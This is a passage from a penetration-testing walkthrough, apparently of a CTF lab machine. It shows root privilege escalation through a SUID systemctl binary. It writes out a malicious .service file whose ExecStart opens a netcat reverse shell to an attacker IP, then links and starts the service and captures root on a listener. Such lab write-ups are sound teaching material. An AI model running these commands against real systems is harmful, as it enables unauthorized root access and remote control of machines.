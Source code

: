     ```
    <program> --version
    ```
3. Search for exploits.

## Malicious Service

To create a malicious service, the systemctl utility must executable by our current user or group:

```
SUID files:
-rwsr-x--- 1 root pepper 174520 Feb 19 05:18 /bin/systemctl       
```

A service is defined by a `.service` file. The `systemctl` is used to link it to `systemd`, and then used again to start the service. What the service does is defined by the `.service` file.

&#x20;[gtfobins](https://gtfobins.github.io/gtfobins/systemctl/) has a page for `systemctl`, and it gives an example where a single command is executed and output to a file in `tmp`.

```
pepper@jarvis:/dev/shm$ cat >evil.service<<EOF
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.16.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
EOF
```

Now link this service:

```
pepper@jarvis:/dev/shm$ systemctl link /dev/shm/evil.service
```

Now start the service, with a `nc` listener ready to catch the shell:

```
pepper@jarvis:/dev/shm$ systemctl start evil
```

Receive the shell:

```
kali@kali$ sudo nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:37150.
id
uid=0(root) gid=0(root) groups=0(root)
```
